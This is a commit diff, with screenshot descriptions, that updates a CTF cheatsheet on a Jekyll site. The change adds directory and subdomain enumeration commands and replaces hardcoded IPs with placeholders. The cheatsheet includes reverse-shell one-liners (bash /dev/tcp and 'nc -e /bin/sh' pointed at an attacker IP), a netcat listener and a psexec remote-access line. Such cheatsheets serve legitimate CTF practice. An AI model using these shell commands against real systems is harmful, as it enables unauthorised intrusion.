

Before and after one commit to haxrbyte/ghost-shell, a Jekyll site: the page built from docs/Cheatsheets/ctf-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 1806 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 2669 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Revise CTF cheatsheet commands and add new sections
Updated command syntax and added new sections for web enumeration and walkthroughs.

````diff
--- a/docs/Cheatsheets/ctf-cheatsheet.md
+++ b/docs/Cheatsheets/ctf-cheatsheet.md
@@ -38,19 +38,37 @@
 # Remote Access
 
 ```bash
-$ impacket-psexec <domain_name>/<username>:'<password>'@<target_ip>
+$ impacket-psexec <domain_name>/<username>:'<password>'@<target>
 ```
 
 # Web Server
 
 ```bash
-$ python3 -m http.server 8080 -d directory
+$ python3 -m http.server <8080:port> -d <directory>
+```
+
+# Web Enumeration
+
+## Files or Directorues
+```bash
+dirsearch -u http://<target>
+
+gobuster dir -u http://<target> -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html
+
+dirb http://<target>
+
+ffuf -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php
+```
+
+## Vhosts or SubDomains
+```bash
+ffuf -u <url> -H "Host: FUZZ.<domain_name>" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -fs <size>
 ```
 
 # Listener
 
 ```bash
-rlwrap nc -nvlp 1337
+rlwrap nc -nvlp <8080:port>
 
 rlwrap will enhance the shell, allowing you to clear the screen with [CTRL] + [L].
 ```
@@ -58,9 +76,15 @@
 # Reverse Shell
 
 ```bash
-'bash -c "bash -i >& /dev/tcp/1.2.3.4/1337 0>&1"'
+'bash -c "bash -i >& /dev/tcp/<attachet_ip>/<8080:port> 0>&1"'
 
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 
-nc -e /bin/sh 10.0.0.1 1234
+nc -e /bin/sh <attacker_ip> <8080:port>
 ```
+
+# Walkthroughs
+
+```bash
+https://0xdf.gitlab.io/
+```
````
Also changed, not shown: other parts of docs/Cheatsheets/ctf-cheatsheet.md (+3 -3 lines).
